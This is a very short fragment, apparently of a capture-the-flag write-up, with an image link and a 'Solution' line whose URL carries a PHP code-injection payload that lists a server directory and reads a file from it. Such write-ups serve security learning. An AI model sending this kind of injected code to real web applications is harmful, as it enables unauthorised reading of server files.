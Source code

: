 ### Solution
view-source:http://192.46.227.32/?roll=readfile(next(array_reverse(scandir(getcwd())))).a